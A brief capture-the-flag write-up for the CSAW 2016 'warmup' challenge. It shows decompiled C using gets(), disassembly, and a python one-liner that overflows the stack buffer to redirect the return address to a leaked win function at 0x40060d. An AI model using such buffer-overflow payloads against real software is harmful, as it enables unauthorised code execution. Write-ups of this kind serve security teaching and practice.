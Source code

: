 # CSAW 2016 warmup

```PIE``` and ```canary``` are disabled and the binary leaks the address of the win function.

```c
  sprintf(local_88,"%p\n",easy);
  write(1,local_88,9);
  write(1,&DAT_00400755,1);
  gets(local_48);
```
We simply have to overflow the stack, base pointer and change the ```ret``` address.

```asm
        00400692 48 8d 45 c0     LEA        RAX=>local_48,[RBP + -0x40]
        00400696 48 89 c7        MOV        RDI,RAX
        00400699 b8 00 00        MOV        EAX,0x0
                 00 00
        0040069e e8 5d fe        CALL       gets                                             char * gets(char * __s)
                 ff ff

```

```bash
[root@pwn:~/csaw16_warmup]$ python -c 'print "A" * 64 + "BBBBBBBB"  + "\x0d\x06\x40\
x00\x00\x00\x00"' | ./warmup 
-Warm Up-
WOW:0x40060d
>flag{Generic Flag}
```
